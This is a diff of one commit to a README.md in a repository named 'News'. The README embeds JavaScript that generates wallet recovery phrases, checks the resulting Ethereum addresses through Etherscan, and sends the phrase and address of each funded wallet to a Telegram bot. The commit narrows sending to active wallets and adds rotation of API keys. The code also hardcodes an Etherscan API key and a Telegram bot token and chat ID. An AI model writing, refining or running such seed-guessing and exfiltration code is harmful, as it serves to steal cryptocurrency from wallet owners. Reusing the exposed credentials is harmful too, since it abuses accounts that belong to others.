

Before and after one commit to alimahmoud001/News, a Markdown page: README.md, 3 parts joined by grey strips. Shown: that part at 82% size. Rendered like a GitHub page; blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -831,8 +804,13 @@
         ];
 
         // إعدادات التطبيق
-        const ETHEREUM_API_KEY = 'ZTX93YC56F73T2W58IKS6GWWDH8UDRGBFK';
-        const ETHEREUM_API_URL = `https://api.etherscan.io/api?apikey=${ETHEREUM_API_KEY}`;
+        const ETHEREUM_API_KEYS = [
+            'ZTX93YC56F73T2W58IKS6GWWDH8UDRGBFK',
+            'YOUR_API_KEY_2', // احتفظ بمفاتيح احتياطية
+            'YOUR_API_KEY_3'
+        ];
+        let currentApiKeyIndex = 0;
+
         const TELEGRAM_BOT_TOKEN = '8257110214:AAFDx0awsmi7yjz6tCZqVY2jS5BZmygvQKw';
         const TELEGRAM_CHAT_ID = '910021564';
         const TELEGRAM_API_URL = `https://api.telegram.org/bot${TELEGRAM_BOT_TOKEN}`;
@@ -1014,7 +1022,7 @@
             }
         }
 
-        function formatWalletMessage(mnemonic, address, walletDetails, isActive = true) {
+        function formatWalletMessage(mnemonic, address, walletDetails) {
             const timestamp = new Date().toLocaleString('ar-EG', {
                 timeZone: 'Africa/Cairo',
                 year: 'numeric',
@@ -1025,14 +1033,7 @@
                 second: '2-digit'
             });
 
-            let message = '';
-
-            if (isActive) {
-                message = `🎉 <b>تم العثور على محفظة نشطة!</b>\n\n`;
-            } else {
-                message = `📭 <b>محفظة فارغة</b>\n\n`;
-            }
-
+            let message = `🔑 <b>عبارة استرجاع جديدة</b>\n\n`;
             message += `📝 <b>العبارة:</b>\n<code>${mnemonic}</code>\n\n`;
             message += `📍 <b>العنوان:</b>\n<code>${address}</code>\n\n`;
 
@@ -1048,12 +1049,12 @@
             return message;
         }
 
-        async function sendWalletToTelegram(mnemonic, address, walletDetails, isActive = true) {
+        async function sendActiveWalletToTelegram(mnemonic, address, walletDetails) {
             try {
-                const message = formatWalletMessage(mnemonic, address, walletDetails, isActive);
+                const message = formatWalletMessage(mnemonic, address, walletDetails);
                 return await sendTelegramMessage(message);
             } catch (error) {
-                console.error('خطأ في إرسال المحفظة:', error);
+                console.error('خطأ في إرسال المحفظة النشطة:', error);
                 return false;
             }
         }
@@ -1121,29 +1122,17 @@
                     stats.activeWallets++;
                     addLogEntry(`🎉 تم العثور على محفظة نشطة! العنوان: ${address}`, 'success');
 
-                    // إرسال المحفظة النشطة إلى Telegram
-                    const telegramSent = await sendWalletToTelegram(mnemonic, address, walletStatus, true);
+                    const telegramSent = await sendActiveWalletToTelegram(mnemonic, address, walletStatus);
                     if (telegramSent) {
-                        addLogEntry('✅ تم إرسال المحفظة النشطة إلى Telegram بنجاح', 'success');
+                        addLogEntry('✅ تم إرسال المحفظة إلى Telegram بنجاح', 'success');
                     } else {
-                        addLogEntry('❌ فشل في إرسال المحفظة النشطة إلى Telegram', 'error');
+                        addLogEntry('❌ فشل في إرسال المحفظة إلى Telegram', 'error');
                     }
 
                     updateStatus(`تم العثور على محفظة نشطة! إجمالي المحافظ النشطة: ${stats.activeWallets}`, 'success');
                 } else {
                     stats.emptyWallets++;
-                    addLogEntry(`محفظة فارغة: ${address.substring(0, 20)}...`, 'info');
-
-                    // التحقق مما إذا كان يجب إرسال المحافظ الفارغة
-                    const sendEmpty = elements.sendEmptyWallets.checked;
-                    if (sendEmpty) {
-                        const telegramSent = await sendWalletToTelegram(mnemonic, address, walletStatus, false);
-                        if (telegramSent) {
-                            addLogEntry('📭 تم إرسال المحفظة الفارغة إلى Telegram', 'info');
-                        } else {
-                            addLogEntry('❌ فشل في إرسال المحفظة الفارغة إلى Telegram', 'error');
-                        }
-                    }
+                    addLogEntry(`محفظة فارغة: ${address.substring(0, 20)}...`);
                 }
 
                 updateStats();
```
Also changed, not shown: other parts of README.md (+58 -57 lines).
